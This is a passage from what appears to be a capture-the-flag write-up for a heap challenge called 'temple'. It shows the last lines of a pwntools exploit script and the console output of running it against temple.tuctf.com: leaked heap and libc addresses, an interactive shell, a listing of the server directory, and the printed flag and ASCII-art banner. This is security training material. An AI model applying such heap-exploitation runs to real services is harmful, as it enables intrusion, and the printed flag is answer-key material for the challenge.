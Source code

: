 ```python
rethink(15,final)

p.interactive()
```

Output:

```
vagrant@kali:~/tu-ctf$ python exploit_temple.py 
[*] '/home/vagrant/tu-ctf/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to temple.tuctf.com on port 4343: Done

[+] Heap: 0x1e342e0
[+] Libc: 0x7fd697366000
[*] Switching to interactive mode
 
Child, what do you seek?
[1] Take wisdom
[2] Give wisdom
[3] Rethink wisdom
Your choice: $ sh
$ pwd
/home/admin/chal
$ ls
flag.txt
start.sh
temple
temple.txt
$ cat flag.txt
TUCTF{0n3_Byt3_0v3rwr1t3_Ac0lyt3}
$ cat temple.txt
               )\         O_._._._A_._._._O         /(
                \`--.___,'=================`.___,--'/            You see before you
                 \`--._.__                 __._,--'/
                   \  ,. l`~~~~~~~~~~~~~~~'l ,.  /
       __            \||(_)!_!_!_.-._!_!_!(_)||/            __
       \\`-.__        ||_|____!!_|;|_!!____|_||        __,-'//   The Temple of Malloc
        \\    `==---='-----------'='-----------`=---=='    //
        | `--.                                         ,--' |
         \  ,.`~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~',.  /    
           \||  ____,-------._,-------._,-------.____  ||/       Only the True will find divinity
            ||\|___!`======="!`======="!`======="!___|/||
            || |---||--------||-| | |-!!--------||---| ||
  __O_____O_ll_lO_____O_____O|| |'|'| ||O_____O_____Ol_ll_O_____O__
  o H o o H o o H o o H o o |-----------| o o H o o H o o H o o H o
 ___H_____H_____H_____H____O =========== O____H_____H_____H_____H___
                          /|=============|\
()______()______()______() '==== +-+ ====' ()______()______()______()
||{_}{_}||{_}{_}||{_}{_}/| ===== |_| ===== |\{_}{_}||{_}{_}||{_}{_}||
||      ||      ||     / |==== s(   )s ====| \     ||      ||      ||
======================()  =================  ()======================
----------------------/| ------------------- |\----------------------
                     / |---------------------| \
-'--'--'           ()  '---------------------'  ()
                   /| ------------------------- |\    --'--'--'
       --'--'     / |---------------------------| \    '--'
                ()  |___________________________|  ()           '--'-
  --'-          /| _______________________________  |\
 --' gpyy      / |__________________________________| \
```